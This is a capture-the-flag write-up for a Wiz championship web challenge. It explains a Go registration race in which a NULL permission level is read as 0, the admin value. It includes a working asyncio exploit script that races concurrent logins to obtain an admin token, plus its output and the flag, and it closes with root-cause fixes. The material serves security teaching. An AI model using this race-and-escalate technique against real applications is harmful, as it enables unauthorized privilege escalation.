



# Confession Booth - Wiz Cloud Security Championship Write-up

### Category: Web / Race Condition  
### Platform: [Wiz Cloud Security Championship](https://www.cloudsecuritychampionship.com/challenge/8)  
### Author: Ronen Shustin  

---

## Challenge Description

> Someone set up a Hacker Confession Booth claiming it's a safe space to spill secrets.  
> Word on the street is that it's a trap — the admin is manually filtering confessions.  
> **Time to expose the truth.**

**Hint:** *"If you didn't become an admin yet, you didn't try enough times"*



---

## Application Overview

The challenge provides source code (`confession_booth_source.zip`) and a live isolated web instance.

**Tech stack:**

| Component | Technology |
|-----------|-----------|
| Language | Go 1.25 |
| Framework | Echo v4 |
| Database | PostgreSQL |
| Auth | JWT (HS512) + bcrypt |
| Templates | Go `html/template` |



The app is a social "confession" platform. Users register, post confessions, and an **admin** manually reviews/approves them. The flag lives behind the admin endpoint:

```
POST /admin/confessions/approve/flag
```

```go
// handlers/admin_handlers.go
func ApproveConfessionHandler(c echo.Context) error {
    if idParam == "flag" {
        flag, _ := os.ReadFile("/flag.txt")
        return c.JSON(http.StatusOK, map[string]string{"flag": string(flag)})
    }
    // ...
}
```

---

## Phase 1: Source Code Analysis

### Key File: `config/constants.go`

```go
const (
    PermissionAdmin = 0   // ← Admin is ZERO (Go's zero-value!)
    PermissionUser  = 1
)
```

⚠️ **Red flag:** Admin permission is `0`, which is the default zero-value for a Go `int`.

---

### Key File: `database/database.go` — Schema

```sql
CREATE TABLE users (
    id SERIAL PRIMARY KEY,
    username TEXT UNIQUE NOT NULL,
    password_hash TEXT NOT NULL,
    profile_picture_url TEXT,
    permission_level INT,   -- ← NO DEFAULT VALUE!
    bio TEXT
);
```

⚠️ **Red flag:** `permission_level` has **no DEFAULT**. New rows get `NULL` until explicitly set.

---

### Key File: `handlers/auth_handlers.go` — Registration

```go
func RegisterHandler(c echo.Context) error {
    // ... validate input ...

    // STEP 1: Create user → permission_level is NULL at this point
    userID, err := database.CreateUser(username, string(hashedPassword), profilePicURL)

    // *** RACE WINDOW EXISTS HERE ***

    targetPerms := config.PermissionUser  // = 1
    if config.AUTO_ADMIN_USER {
        targetPerms = config.PermissionAdmin
    }

    // STEP 2: Set permissions to User (1) — separate, non-atomic call
    database.UpdateUserPermissions(userID, targetPerms)

    return c.Redirect(http.StatusSeeOther, "/auth/login")
}
```

⚠️ **Critical:** Two **non-atomic** database operations. A gap exists between them.

---

### Key File: `handlers/auth_handlers.go` — Login

```go
func LoginHandler(c echo.Context) error {
    var userID int
    var dbHashedPassword string
    var userPerms int   // ← Regular int, NOT sql.NullInt64!

    err := database.DB.QueryRow(
        `SELECT id, password_hash, permission_level FROM users WHERE username = $1`,
        username,
    ).Scan(&userID, &dbHashedPassword, &userPerms)

    // ...
    token, _ := auth.CreateJWT(userID, userPerms)
    return c.JSON(http.StatusOK, map[string]string{"token": token})
}
```

⚠️ **Critical:** When `permission_level` is `NULL` in the database, scanning into a Go `int` gives `0` (the zero-value) — which equals `PermissionAdmin`!

---

## Phase 2: The Vulnerability Chain

```
╔══════════════════════════════════════════════════════════════╗
║              RACE CONDITION TIMELINE                         ║
╠══════════════════════════════════════════════════════════════╣
║  [1]  POST /auth/register arrives                           ║
║       CreateUser() runs                                      ║
║       → Row inserted: permission_level = NULL                ║
║                                                              ║
║  [2]  *** VULNERABLE RACE WINDOW ***                        ║
║       User exists in DB                                      ║
║       Password hash is valid                                 ║
║       permission_level is still NULL                         ║
║                                                              ║
║  [3]  UpdateUserPermissions() runs                          ║
║       → permission_level set to 1 (User)                    ║
╚══════════════════════════════════════════════════════════════╝

If a LOGIN request hits during window [2]:
  NULL → scanned into Go int → 0 = PermissionAdmin
  JWT is issued with perms: 0 → ADMIN ACCESS!
```

**Normal user JWT payload:**
```json
{"user_id": 68, "perms": 1, "exp": 1779202014}
```

**Race-condition admin JWT payload (perms = 0):**
```json
{"user_id": 42, "perms": 0, "exp": 1779202014}
```

---

## Phase 3: Exploit

### Strategy

Fire **one registration** and **30 concurrent login requests** simultaneously using `aiohttp` async. The parallel logins flood the race window, giving a high probability one hits while `permission_level` is still `NULL`.



### Exploit Script

```python
#!/usr/bin/env python3
"""
Race condition exploit — Confession Booth CTF
Exploits NULL permission_level → 0 = PermissionAdmin in Go
"""
import asyncio, aiohttp, random, string, sys

BASE = "https://<YOUR-INSTANCE>.confession-booth.challenges.wiz-research.com"
PLATFORM_TOKEN = "<YOUR-PLATFORM-JWT>"  # From browser cookie 'token'

def rnd():
    return ''.join(random.choices(string.ascii_lowercase, k=10))

async def register(s, u, p):
    async with s.post(f"{BASE}/auth/register", data={
        'username': u, 'password': p,
        'profile_picture_url': 'https://ui-avatars.com/api/?name=test'
    }) as r:
        return await r.text()

async def login(s, u, p):
    async with s.post(f"{BASE}/auth/login", data={
        'username': u, 'password': p
    }) as r:
        if r.status == 200:
            d = await r.json()
            return d.get('token')
    return None

async def is_admin(s, token):
    async with s.get(f"{BASE}/admin",
                     cookies={'booth_session': token},
                     allow_redirects=False) as r:
        return r.status == 200

async def get_flag(s, token):
    async with s.post(f"{BASE}/admin/confessions/approve/flag",
                      cookies={'booth_session': token}) as r:
        return await r.text()

async def race(s, u, p, n=30):
    """Fire registration + 30 concurrent logins simultaneously."""
    tasks = [register(s, u, p)] + [login(s, u, p) for _ in range(n)]
    results = await asyncio.gather(*tasks, return_exceptions=True)
    return [r for r in results[1:] if isinstance(r, str) and len(r) > 50]

async def main():
    conn = aiohttp.TCPConnector(limit=100, limit_per_host=50)
    jar = aiohttp.CookieJar(unsafe=True)
    async with aiohttp.ClientSession(connector=conn, cookie_jar=jar) as s:
        s.cookie_jar.update_cookies(
            {'token': PLATFORM_TOKEN},
            response_url=aiohttp.typedefs.URL(BASE)
        )
        for i in range(500):
            u, p = rnd(), "pass1234"
            print(f"[{i+1}] {u}...", end=" ", flush=True)
            tokens = await race(s, u, p)
            if tokens:
                print(f"{len(tokens)} token(s)", end=" ", flush=True)
                for t in tokens:
                    if await is_admin(s, t):
                        print(f"\n[+] ADMIN!")
                        flag = await get_flag(s, t)
                        print(f"\n[FLAG] {flag}")
                        return
                print("(no admin)")
            else:
                print("no tokens")

asyncio.run(main())
```

### Execution Output

```
[1]  wodfbqodok... no tokens
[2]  szecqhujek... no tokens
[3]  fpnffhvikq... 2 token(s) (no admin)
[4]  vcbovqkpip... 2 token(s) (no admin)
[5]  uqduvimllr... 3 token(s) (no admin)
...
[54] zzfshkhgbt... 2 token(s)
[+] ADMIN!
[FLAG] {"flag":"WIZ_CTF{0nc3_y0u_w1n_7h3_r4c3_y0u_c4nn07_un533}"}
```

**Race won on attempt #54.** Out of 30 concurrent logins, 2 tokens returned — one had `perms: 0`.

---

## Flag

```
WIZ_CTF{0nc3_y0u_w1n_7h3_r4c3_y0u_c4nn07_un533}
```

*(Decoded: "Once you win the race you cannot unsee")*

---

## Root Cause Analysis

Three bugs aligned to create this vulnerability:

| # | Bug | Detail |
|---|-----|--------|
| 1 | **Non-atomic registration** | `CreateUser` and `UpdateUserPermissions` are two separate DB calls with a gap |
| 2 | **NULL handling** | Scanning SQL `NULL` into Go `int` silently produces `0` (zero-value) |
| 3 | **Dangerous permission values** | `PermissionAdmin = 0` means zero/null = most privileged |

### Recommended Fixes

```go
// Fix 1: Wrap in a single transaction
tx, _ := db.Begin()
userID := createUserTx(tx, ...)
updatePermsTx(tx, userID, PermissionUser)
tx.Commit()

// Fix 2: Use safe NULL scanning
var userPerms sql.NullInt64
row.Scan(&userID, &dbHashedPassword, &userPerms)
if !userPerms.Valid {
    return http.StatusUnauthorized
}

// Fix 3: Schema default
permission_level INT NOT NULL DEFAULT 1
```

---

## Key Takeaways

- **Atomicity matters** — any multi-step state transition must be in a single DB transaction
- **Zero-values are dangerous** — never assign the most privileged level to `0`/`NULL`
- **`sql.NullInt64` exists for a reason** — always use nullable types for nullable columns
- **Async beats threading** — `aiohttp` with `asyncio.gather` achieves true parallelism where Python threading fails due to the GIL
- **Platform auth discovery** — the CTF platform wraps instances with an HttpOnly JWT cookie; intercept it from browser requests using Playwright route interception
